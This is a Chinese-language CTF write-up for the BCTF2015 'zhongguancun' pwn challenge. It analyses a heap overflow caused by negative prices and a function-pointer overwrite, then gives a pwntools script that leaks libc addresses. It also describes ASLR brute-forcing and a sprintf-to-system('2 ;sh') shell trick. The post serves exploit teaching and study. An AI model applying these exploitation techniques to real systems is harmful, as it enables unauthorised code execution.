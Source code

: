 ```yaml
---
layout: post
title: BCTF2015 zhongguancun writeup
catagories: [ctf]
tags: [ctf, writeup, BCTF2015, pwn, exploit]
---
```


> 堆溢出

```
*********************************
*** Welcome to Zhong Guan Cun ***
*********************************
Are you dreaming of becoming a Milli$_$naire?
Come to sell some electronics!

a) Register my store
b) Try my store
c) Exit
Your choice? 
```

经分析，这个题目是说一个中关村买卖电子产品的服务。在买前之前，需要先在商店里，填好商品条目。一共有两大类，手机和手表，每个条目的数据结构如下：

```
+0x0
callback function, 在增加条目时，被指向一个用来计算批发价的函数。
+0x4
手机或手表名称，由用户自己输入， 长度0x20
+0x24
相关描述，长度0x50
+0x74
价格，长度16
+0x78
操作系统对应选项，其中手机有5个，手表有4个。
```

每个条目的0x7c大小的数据结构，均在堆上申请分配

`0x08049036`处的这个函数，可以打印出目前商店中的商品。它在堆上申请了一个2840大小的空间，然后使用一个函数将其格式化打印到一个指定的buffer里。

```c
int __cdecl sub_804932E(item *a1, char *buffer)
{
    return sprintf(
               buffer,
               "%s %s price: %d CNY description: %s",
               20 * a1->type + 0x804B140,
               a1->name,
               a1->price,
               a1->description);
}
```

那么，到目前为止，可能的漏洞在哪里呢，我们对堆上分配的内存比较敏感，先看看2840大小的空间够不够存放最多16个条目的。
我们把所有的条目都定位到最长，操作系统类型，选择手机里的`Blackberry OS`，即类型为4。其名称输入最长的`31`个字符，描述输入`79`个字符。价格在内存中使用32位整型保存，最大应该是`2147483647`，`%d`打印出来，是10个字符长。

所有的这些加起来，输满16个，好像才2837个字符，没有溢出的样子。

真的是这样吗？价格由atoi()函数转换而成，好像没有做强制类型转换，也就是说可以是负数，如果是负数，像这样`-1000000000`岂不是11个字符，`2837+16>2840`，这样就可以溢出了。

这个溢出，我们如何来利用呢？首先想到的是每个商品也是在堆上分配的（0x7c大小），而每个商品的最开始的地方，是相应的函数指针，能不能把这个函数指针改掉？当然可以，那么改成什么呢？试遍所有，在调函数之前有个判断，从`/dev/zero`里读0, 填充到当前指向的值最末位，即如果是0xaabbccdd，会改成0xaabbcc00，当然，如果这个数据是只读的，就没法改动。那么这个地方的函数指针也只能改成rodata这种只读权限的段的内容了。又因为它是函数指针，我们接下来，也要利用这个函数指针，所以我的方法是改成`008049B64x`，利用其`sub_804932E`函数来向指定内存中打印字符串，这样来达到任意地址写的目的。

如此，在执行到以下代码时，就能执行我们改成的`sub_804932e`处的函数，而第二参数，本来是指购买数量，换成这个函数变成了指定的buffer的值了。也是我们可以控制的。

```c
    read_zero(v4, (void **)&a1->callback);
    v6 = (*(int (__cdecl **)(item *, int))a1->callback)(a1, numberofBuy);
    sprintf(nptr, "The lowest price we can offer is %d CNY.\n", v6);
```

到这里，问题来了，我们能任意地址写了，虽然是一写一大块。我们如何泄露某个libc函数地址，来计算libc基址，并且把计算好的system()函数的地址再写回远端呢？好像比较困难，我们可以使用2840大小的堆地址，将其写成某个libc函数的got表地址，然后很多地方调用了它，可以将它的值打印出来，即应got表的值可以打印出来，但好像一直没找到办法把计算好的system()函数的地址写回去。

我这里的利用不太好，最终还是使用的暴力的思路，泄露出system()地址后，因为它们是页对齐的，即对方alsr无论地址如何变，最后12位是不会变的。并且前面的8位也不会变，变的只是中间那几位，这样变化空间就比较小，可以将一个对的system()函数的地址放上去，然后`while True:`的来调利用脚本，一旦利用成功，因为开了交互式`io.interactive()`,脚本就会停下来，拿到shell。

泄露libc地址的脚本

```python
#!/usr/bin/env python2
from pwn import *

io = process("./zhongguancun-47a25f85cc5221071886cc129046e6e4_noped")
#io = remote("146.148.60.107", 6666)
#bin = ELF("./zhongguancun-47a25f85cc5221071886cc129046e6e4")
#libc = ELF("libc.so.6")
libc = ELF("libc.so.6.local")


buffer = "a"*15 + "\n" + "A"*63 + "\n" 
buffer += ("a"*15 + "\n" + "P"*31 + "\n" + "4" + "\n" + "-1000000000\n" + "D"*79 + "\n") * 15
io.send(buffer)
#raw_input()
buffer = "c" + "\n"
buffer += "a"*15 + "\n" + "P"*31 + "\n" + "4" + "\n" + "-1000000000\n" 
buffer += p32(0x080489C3) + "D"*2 + p32(0x0804B024)*10 + p32(0xf7470da0) + p32(0x080489C3)*4 + p32(0x804b140) + p32(0x0804B030)  + p32(0x08049B64) + "\n"

buffer += "c" + "\n" + "d" + "\n" +"b" +"\n" + "16" +"\n"
buffer += "b" + "\n" + "134525187" + "\n" # offset read, global_s
buffer += "b" + "\n" + "134525696" + "\n"
buffer += "c" + "\n" 
io.send(buffer)


buffer = "b" + "\n"
io.send(buffer)
all = io.recvrepeat(timeout=1)
readaddr = all[-68:-64]
alarmaddr = all[-64:-60]
print libc.symbols["read"]
print libc.symbols["system"]
libcbase = u32(readaddr) - libc.symbols["read"]
systemaddr = libcbase + libc.symbols["system"]
print "[+] leak read() address: ", hex(u32(readaddr))
print "[+] leak libc base address: ", hex(libcbase)
print "[+] leak system() address: ", hex(systemaddr)

io.interactive()
```

然后，再利用上面脚本，稍做修改，将泄露出来的地址硬写进去，加个while的循环，暴力的等shell吧。还是是32位的二进制程序，如果是64位的，这个方法是行不通的。

下面我们来看看别的队伍的比较完美的利用吧。

* <https://gist.github.com/Idolf/99ffa3c5f76165f77b19>

他利用了当前拥有的钱数，将其指向的地址改成`sprintf`的got表的地址，然后在下面这地方，有对钱数进行了改动。

```c
get_input(nptr, 15, '\n');
v1 = atoi(nptr);
if ( v1 <= 0 )
    goto LABEL_6;
v2 = *(_DWORD *)mymoney - a1->price * v1;
if ( v2 >= 0 )
{
    *(_DWORD *)mymoney = v2;
    put_char((int *)"Thanks for buying.\n");
    sprintf(nptr, "Total money left: %d CNY.\n", *(_DWORD *)mymoney);
```

利用钱数改动的操作，将`sprintf`到`system()`的偏移计算好，接下来，执行到`sprintf()`就相当于执行`system("2 ;sh")`了，`nptr="2 ;sh"`
